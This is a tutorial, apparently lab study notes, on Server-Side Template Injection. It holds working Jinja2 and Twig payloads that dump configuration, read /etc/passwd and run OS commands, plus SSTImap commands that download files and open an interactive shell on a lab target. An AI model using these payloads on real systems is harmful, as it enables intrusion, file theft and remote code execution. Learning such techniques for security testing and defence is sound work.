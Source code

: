 # How does it work?
Web applications can utilize templating engines and server-side templates to generate responses such as HTML content dynamically. This generation is often based on user input, enabling the web application to respond to user input dynamically. When an attacker can inject template code, a [Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection) vulnerability can occur. SSTI can lead to various security risks, including data leakage and even full server compromise via remote code execution.
## Templating
Template engines typically require two inputs: a template and a set of values to be inserted into the template. The template can typically be provided as a string or a file and contains pre-defined places where the template engine inserts the dynamically generated values. The values are provided as key-value pairs so the template engine can place the provided value at the location in the template marked with the corresponding key. Generating a string from the input template and input values is called `rendering`.
```jinja2
Hello {{ name }}!
```
# Server-side Template Injection (SSTI)
>There are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

If templating is implemented correctly, user input is always provided to the rendering function in values and never in the template string. However, SSTI can occur when user input is inserted into the template **before** the rendering function is called on the template. 

A different instance would be if a web application calls the rendering function on the same template multiple times. If user input is inserted into the output of the first rendering process, it would be considered part of the template string in the second rendering process, potentially resulting in SSTI. 

Lastly, web applications enabling users to modify or submit existing templates result in an obvious SSTI vulnerability.
## Identifying SSTI
### Confirming SSTI
The process of identifying an SSTI vulnerability is similar to the process of identifying any other injection vulnerability, such as SQL injection. 

We can inject special characters with semantic meaning in template engines and observe the web application's behavior. 

The following test string is commonly used to provoke an error message in a web application vulnerable to SSTI, as it consists of all special characters that have a particular semantic purpose in popular template engines:
```
${{<%[%'"}}%\.
```
- Since the above test string should almost certainly violate the template syntax, it should result in an error if the web application is vulnerable to SSTI.

We can test any injection point - from an input field from the user, to the end of a url that is calling for the retrieval of an object / value.
### Identifying the Template Engine
We first need to determine the template engine used by the web application by testing these payloads.
![image](https://academy.hackthebox.com/storage/modules/145/ssti/diagram.png)
## Exploiting SSTI - Jinja2
We will assume that we have successfully identified that the web application uses the `Jinja` template engine.

In our payload, we can freely use any libraries that are already imported by the Python application, either directly or indirectly. Additionally, we may be able to import additional libraries through the use of the `import` statement.
#### Information Disclosure
We can obtain internal information about the web application, including configuration details and the web application's source code.

We can obtain the web application's configuration using the following SSTI payload:
```jinja2
{{ config.items() }}
```
- dumps the entire web application configuration

With the information from this, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. 

We can use the following SSTI payload to dump all available built-in functions:
```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```
#### Local File Inclusion (LFI)
We can use Python's built-in function `open` to include a local file. We need to call it from the `__builtins__` dictionary we dumped earlier. This results in the following payload to include the file `/etc/passwd`:
```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
#### Remote Code Execution (RCE)
We can use functions provided by the `os` library, such as `system` or `popen`.

If the web application has not already imported this library, we must first import it by calling the built-in function `import`. This results in the following SSTI payload:
```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
## Exploiting SSTI - Twig
#### Information Disclosure
In Twig, we can use the `_self` keyword to obtain a little information about the current template:
```twig
{{ _self }}
```
#### Local File Inclusion (LFI)
Reading local files is not possible using internal functions directly provided by Twig. 

However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:
```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
#### Remote Code Execution (RCE)
We can use a PHP built-in function such as `system`. 

We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:
```twig
{{ ['cat /flag.txt'] | filter('system') }}
```
## Tools of the Trade
The most popular tool for identifying and exploiting SSTI vulnerabilities was [tplmap](https://github.com/epinna/tplmap), but it is not maintained and deprecated, so we will use [SSTImap](https://github.com/vladko312/SSTImap) to aid in SSTI.

We can run it after cloning the repository and installing the required dependencies:
```bash
git clone https://github.com/vladko312/SSTImap

cd SSTImap

pip3 install -r requirements.txt

python3 sstimap.py 
```

To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:
```bash
python3 sstimap.py -u http://172.17.0.2/index.php?name=test
```

We can download a remote file to our local machine using the `-D` flag:
```bash
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'
```

We can execute a system command using the `-S` flag:
```bash
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id
```

We can use `--os-shell` to obtain an interactive shell:
```bash
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```